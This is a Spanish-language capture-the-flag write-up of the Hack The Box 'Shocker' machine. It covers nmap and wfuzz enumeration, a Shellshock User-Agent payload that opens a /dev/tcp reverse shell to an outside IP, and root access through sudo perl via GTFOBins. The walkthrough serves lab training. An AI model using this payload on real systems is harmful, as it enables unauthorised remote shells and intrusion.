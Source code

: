 
#  SHOCKER MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/1.png)

## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 -v -n 10.10.10.56 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p -sV -sC 10.10.10.56 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/3.png)

## EXPLOTACION

Vemos que tiene una pagina en el puerto 80 veamosla:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/4.png)

no hay algo interesante, vamos a fuzzear haber si encontramos un directorio, En este caso el mejor diccionario fue **/usr/share/dirb/wordlists/common.txt** porque nos reporte lo mejor posible, los diccionarios que siempre debes usar son:

```bash
/usr/share/dirb/wordlists/common.txt
/usr/share/wordlists/rockyou.txt
/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

```bash
wfuzz -c --hw=71 --hc=404 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.56/FUZZ
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/5.png)

vemos un directorio **cgi-bin** esto huele a ataque shell shock, si vemos esa ruta en el navegador no hay nada:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/6.png)

pero vamos a fuzzear ahora ese directorio pero vamos a colocar la extension.cgi a los archivos:

```bash
wfuzz -c --hw=71 --hc=404 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.56/cgi-bin/FUZZ.cgi
```

pero no reporto nada interesante:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/7.png)

vamos a intentar buscar con otras extensiones:

```bash
wfuzz -c -t 50 --hw=71 --hc=404 -w /usr/share/dirb/wordlists/common.txt extensiones.txt http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/8.png)

ahora si mostro algo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/9.png)

si vamos a esa ruta se nos desacrga un archivo

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/10.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/11.png)

nada interesante, pero como esa ruta existe tocara interceptar con burp y jugar con el user agent:

capturamos la peticion a "http://10.10.10.56/cgi-bin/user.sh" y modificamos el user-agent con el siguiente payload de shellshock:

```bash
() { ignored;};/bin/bash -i >& /dev/tcp/10.10.14.16/4242 0>&1
```

nos colocamos en la escucha en netcat y mandamos la peticion y obtenemos una reverse shell:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/12.png)

podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/13.png)


## ELEVACION DE PRIVILEGIOS

veamos que puede ejecutar como sudo:

```bash
sudo -l
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/14.png)

vemos que puede ejecutar perl, vamos a buscar en [https://gtfobins.github.io/](https://gtfobins.github.io/).

encontramos lo siguiente si tenemos los permisos sudo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/15.png)

copiamos y lo ejecutamos, ahora somos root y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SHOCKER/images/16.png)

### NOTA

A la hora de escalar privilegios revisar siempre GTFOBins para permisos sudo  o SUID.